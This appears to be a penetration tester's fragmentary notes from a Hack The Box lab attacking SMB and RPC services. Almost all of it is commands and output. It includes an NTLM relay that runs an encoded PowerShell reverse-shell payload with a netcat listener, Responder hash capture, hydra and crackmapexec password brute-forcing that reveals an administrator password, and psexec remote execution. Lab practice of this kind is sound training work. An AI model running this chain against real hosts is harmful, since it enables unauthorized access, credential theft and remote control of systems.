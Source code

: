 **Reverse Shell** :

https://www.revshells.com/
yanisAlb@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET -c 'powershell -e JABj=='

nc -lvnp 9001

### RPC

Change a user's password.
Create a new domain user.
Create a new shared folder.

## LAB

rpcclient -U'%' $TARGET
rpcclient $> enumdomusers
user:[jason] rid:[0x3e8]
user:[robin] rid:[0x3e9]
rpcclient $> 

smbmap -H $TARGET
[+] IP: 10.129.105.146:445	Name: 10.129.105.146                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	GGJ                                               	READ ONLY	Priv
	IPC$                                              	NO ACCESS	IPC Service (attcsvc-linux Samba)

sudo responder -I tun0

[+] Listening for events...

[+] Exiting...

vi user.list
jason


vi password.list

hydra -L user.list -P password.list smb://$TARGET

crackmapexec smb $TARGET -u user.list -p password.list --shares

crackmapexec smb $TARGET -u administrator -p password.list --shares
SMB         10.129.105.146  445    ATTCSVC-LINUX    [*] Windows 6.1 Build 0 (name:ATTCSVC-LINUX) (domain:) (signing:False) (SMBv1:False)
SMB         10.129.105.146  445    ATTCSVC-LINUX    [+] \administrator:liverpool

crackmapexec smb $TARGET -u administrator -p 'liverpool' --loggedon-users

impacket-psexec administrator:'liverpool'@$TARGET

smbclient //ATTCSVC-LINUX/GGJ -k -c 'recurse;ls' -u Administrator -p liverpool

rpcclient -U Administrator $TARGET
